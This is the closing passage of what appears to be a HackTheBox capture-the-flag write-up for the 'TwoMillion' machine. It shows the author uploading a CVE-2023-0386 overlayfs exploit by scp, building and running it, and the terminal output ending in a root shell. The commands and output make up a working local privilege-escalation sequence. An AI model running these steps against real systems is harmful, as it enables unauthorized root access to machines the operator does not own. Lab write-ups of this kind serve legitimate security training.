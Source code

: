 ```terminal
┌──(kali㉿kali)-[~/Desktop/htb/twomillion]
└─$ scp cve.zip admin@2million.htb:/tmp           
admin@2million.htb's password: 
cve.zip                                                                                                100%  460KB  57.6KB/s   00:07    
```

Unzipping the file.

```terminal
admin@2million:/tmp/CVE-2023-0386$ make all
admin@2million:/tmp/CVE-2023-0386$ ./fuse ovlcap/lower ./gc &
[1] 1764
[+] len of gc: 0x3ee0

admin@2million:/tmp/CVE-2023-0386$ ./exp
uid:1000 gid:1000
[+] mount success
[+] readdir
[+] getattr_callback
/file
total 8
drwxrwxr-x 1 root   root     4096 May 23 12:30 .
drwxr-xr-x 6 root   root     4096 May 23 12:30 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] open_callback
/file
[+] read buf callback
offset 0
size 16384
path /file
[+] open_callback
/file
[+] open_callback
/file
[+] ioctl callback
path /file
cmd 0x80086601
[+] exploit success!
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@2million:/tmp/CVE-2023-0386# 
```

And the machine is rooted.

Thank you!! Happy Hacking :D